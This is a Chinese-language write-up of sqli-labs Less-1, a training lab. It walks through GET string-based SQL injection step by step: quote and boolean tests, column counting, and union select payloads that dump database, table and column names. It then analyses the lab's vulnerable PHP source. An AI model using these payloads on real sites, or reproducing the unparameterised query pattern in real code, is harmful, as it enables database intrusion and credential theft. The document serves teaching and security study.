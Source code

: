 # Less-1 **GET Error Based-String**
TAG：GET型注入、字符型注入  
## 漏洞利用
此less展示了最基本的GET型字符注入  
![less1_1](images\less1_1.png)  
当输入?id=1时显示了页面1
![less1_2](images\less1_2.png)  
测试payload：  
```?id=1'```
![less1_3](images\less1_3.png)
此时出现了报错信息，通过此报错信息可以得知，PHP语句中传入的id参数类型是字符串型，所以要把前面的一个单引号闭合要将后面的单引号闭合或注释掉。  
测试payload：  
```?id=1' and 1=1--+```
![less1_4](images\less1_4.png)  
测试payload：  
```?id=1' and 1=2--+```
![less1_5](images\less1_5.png)  
这里不同的显示说明payload影响了代码的处理，可以确定存在注入  
为了进行回显，先判断一下字段数
测试payload：  
```?id=1' order by 1--+```  
```?id=1' order by 2--+```  
```?id=1' order by 3--+```  
```?id=1' order by 4--+```  
![less1_6](images\less1_6.png)  
当测试到字段4时，产生了报错信息，说明只存在3个字段  
现在使用联合查询测试回显点的位置  
测试payload：  
```?id=1' union select 1,2,3--+```  
![less1_7](images\less1_7.png)  
通过页面的显示可以找到对应的回显点，确保我们的注入可以正常显示，如果找不到回显点，就要进行盲注了  
获取数据库名payload:  
```?id=1' union select 1,2,group_concat(schema_name)from(information_schema.schemata)--+```  
![less1_8](images\less1_8.png)  
获取表名payload:  
```?id=0' union select 1,2,group_concat(table_name)from information_schema.tables where table_shema ='information_schema'--+```   
![less1_9](images\less1_9.png)  
获取字段名payload： 
```?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=''--+```  
获得内容payload：  
```?id=-1' union select 1,2,group_concat(字段名) from security.表名--+```

## 源码分析  
### less1源码： 
```<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
    <title>Less-1 **Error Based- String**</title>
</head>

<body bgcolor="#000000">
    <div style=" margin-top:70px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
    <font size="3" color="#FFFF00">

<?php
    //including the Mysql connect parameters.
    include("../sql-connections/sql-connect.php");
    error_reporting(0);
    // take the variables 
    if(isset($_GET['id'])){
        $id=$_GET['id'];
        //logging the connection parameters to a file for analysis.
        $fp=fopen('result.txt','a');
        fwrite($fp,'ID:'.$id."\n");
        fclose($fp);
        // connectivity 
        $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
        $result=mysql_query($sql);
        $row = mysql_fetch_array($result);
        if($row){
  	        echo "<font size='5' color= '#99FF00'>";
  	        echo 'Your Login name:'. $row['username'];
  	        echo "<br>";
  	        echo 'Your Password:' .$row['password'];
  	        echo "</font>";
        }
        else {
	        echo '<font color= "#FFFF00">';
	        print_r(mysql_error());
	        echo "</font>";  
	    }
    }
	else { 
        echo "Please input the ID as parameter with numeric value";
    }
?>
        </font> 
    </div></br></br></br>
    <center>
    <img src="../images/Less-1.jpg" /></center>
    </body>
</html>
```

### 漏洞点分析   
```
    ......
    if(isset($_GET['id'])){
        $id=$_GET['id'];
        $fp=fopen('result.txt','a');
        fwrite($fp,'ID:'.$id."\n");
        fclose($fp);
        $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
        $result=mysql_query($sql);
        $row = mysql_fetch_array($result);
        if($row){
  	        echo "<font size='5' color= '#99FF00'>";
  	        echo 'Your Login name:'. $row['username'];
  	        echo "<br>";
  	        echo 'Your Password:' .$row['password'];
  	        echo "</font>";
        }
        else {
	        echo '<font color= "#FFFF00">';
	        print_r(mysql_error());
	        echo "</font>";  
	    }
    }
	else { 
        echo "Please input the ID as parameter with numeric value";
    }
    ......
```
存在漏洞的页面由PHP编写，它将获取通过GET方式传递到页面的id参数，并进行数据库操作将数据加载给页面  
获取参数的语句：```$id=$_GET['id'];```  
问题也就在这里出现了，现在看一下进行数据库操作的代码
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
```
这里直接将获取到的id参数写入了请求语句，并把语句传输给了数据库  
入侵者可以很简单的使用单引号'来进行语句的闭合，在正常语句后插入恶意语句来进行数据库的注入  

```
...
echo 'Your Login name:'. $row['username'];
echo "<br>";
echo 'Your Password:' .$row['password'];
...
```
页面将通过数据库查询语句查询到的信息直接显示了出来，这为注入提供了回显点，可以通过此处直接获取恶意语句返回的信息  
